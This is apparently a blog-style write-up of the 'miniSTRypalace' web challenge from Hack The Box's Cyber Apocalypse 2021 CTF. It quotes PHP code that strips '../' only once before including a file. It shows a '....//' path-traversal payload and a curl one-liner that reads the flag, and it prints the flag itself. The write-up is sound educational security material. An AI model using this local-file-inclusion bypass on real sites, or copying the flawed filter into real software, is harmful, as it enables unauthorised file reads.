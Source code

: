 ```yaml
---
slug: ministrypalace-cyberapocalypse-2021-ctf
title: miniSTRypalace - Cyberapocalypse 2021 CTF
description: This is a writeup for the miniSTRypalace challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.
authors: kiroki
tags: [Cyber Security, CTF]
---
```


This is a writeup for the miniSTRypalace challenge, part of the Hack the box's Cyberapocalypse CTF 2021, category Web.

### Prompt

Let’s read this website in the language of Alines. Or maybe not?

<!-- truncate -->

### Recon

We get the source code for a website, and we're informed by a docker environment setup, that the flag will be at the root of the system.

```
# Dockerfile
[redacted]

# Copy challenge files
COPY challenge /www
COPY flag /

[redacted]
```

From the source code, we can see that this is a PHP application, and we can inspect the `index.php` file.

```php
<html>
    <header>
        <meta name='author' content='bertolis, makelaris'>
        <title>Ministry of Defence</title>
        <link rel="stylesheet" href="/static/css/main.css">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootswatch/4.5.0/slate/bootstrap.min.css"   >
    </header>

    <body>
    <div class="language">
        <a href="?lang=en.php">EN</a>
        <a href="?lang=qw.php">QW</a>
    </div>

    <?php
    $lang = ['en.php', 'qw.php'];
        include('pages/' . (isset($_GET['lang']) ? str_replace('../', '', $_GET['lang']) : $lang[array_rand($lang)]));
    ?>
    </body>
</html>
```

### Analysis

We see from the PHP file, that the query param `lang` will include a file from the filesystem. Its main use is to provide us with language support by using either `en.php` or `qw.php` as language files, but we see other uses for it - namely **local file inclusion**.

The only problem, is that there is a `str_replace` method being called, which removes any string of the form `../` from the query. But we need `../` to get to the root directory, where the flag is.

### Solution

Since `str_replace` will run through our string only once, all we need to do is supply a buffer to the string `../` by making it for example into `....//` or  `.../...//`, or anything similar to that.

So, all we have to do is navigate to the following url

```
http://<vulnerablesite:port>/?lang=....//....//flag
```

Or, if we want to be cheeky, we can script this by running

```sh
curl http://<vulnerablesite:port>/?lang=....//....//flag | grep CHTB{.*} --color=none
```

To directly get our flag as output

```
CHTB{b4d_4li3n_pr0gr4m1ng}
```

import DonateCard from '@site/src/components/DonateCard';

<DonateCard/>